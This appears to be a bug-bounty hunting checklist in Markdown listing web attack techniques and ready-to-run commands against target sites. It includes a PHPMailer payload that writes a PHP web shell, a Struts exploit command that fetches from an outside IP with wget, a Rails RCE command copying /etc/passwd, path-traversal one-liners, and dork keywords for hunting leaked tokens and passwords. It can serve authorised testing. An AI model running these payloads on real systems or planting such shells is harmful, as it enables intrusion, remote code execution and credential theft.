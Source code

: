 # Smart Hunting ;)
## Bugs
- [ ] Add header in the proxy > Options (`X-Forwarded-Host: target.com`) - browse the program and then later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- [ ] Check HTTP Request Smuggling
- [ ] Apply on `.xhtml`
- [ ] `Python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- [ ] Test for Electronic Code Book (AAAAAAA aaaaaa BBBBB)
- [ ] `CVE-2016-10033`: PHPMailer RCE
email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['c']);?>
- [ ] Change all request methods to `TRACE` method to disclose or access info
- [ ] `blc http://target.com -ro` (check for broken links)
- [ ] Check/Fuzzing `targetname.atlassian.net`
- [ ] Check/Fuzzing `jira.target.com`
- [ ] Vhost Fuzzing
- [ ] Recon/Test for bukets
- [ ] Check Github & dork list
(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,buket,GITHUB_TOKEN)
- [ ] `gau --threads 40 target.com`
- [ ] `waybackurls target.com`
- [ ] Accessing misconfigured data of an org: `https://storage.googleapis.com/<org-name>`
- [ ] Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- [ ] `CVE-2013-0156`: Rails Object Injection: ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
(https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- [ ] `CVE-2019-11043`: Hint: PHP based website on NGINX phuip-fpizdam http://target.com/anyphpfile.php
- [ ] Check for CRLF Injection
- [ ] Bypass Open-Redirection protection
- [ ] Keyfinder
- [ ] Check email verification `admin@target.com`
- [ ] `target.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- [ ] `CVE-2019-19781`: Citrix NetScaler Directory Traversal: `curl -vk -path-as-is https://$TARGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "VULNERABLE: $TARGET" || echo "MITIGATED: $TARGET"`
- [ ] We can look for vulnerabilities such as SQLi, Path Traversal: `cat urls.txt | grep "?" | qsreplace ../../../../etc/passwd | ffuf -u 'FUZZ' -w - -mr '^root:'`
- [ ] When you test a **Django**, **Rails**, or **NodeJs** web app try the following payloads in the `Accept:` header. (e.g.,`Accept: ../../../../etc/passwd`)
- [ ] Hunt XSS, SQLi, LFI, and SSRF on any site? Here’s a killer one-liner: `gau target.com | gf xss,lfi,sqli,ssrf | qsreplace FUZZ | ffuf -u FUZZ -w payloads/xss.txt,payloads/lfi.txt,payloads/sqli.txt,payloads/ssrf.txt -fr "FUZZ" | tee param_vulns.txt`

**Tip:** Add `-t 50` to ffuf for speed, or `-fc 404` to skip dead ends. Test responsibly!


### Blind XSS
- [ ] Blind XSS Payload in `User-Agent` header
- [ ] BXSS payload while logging (Enter the BXSS payload in reset/forget password, login, signup to generate errors)
- [ ] Use BXSS payload as your password
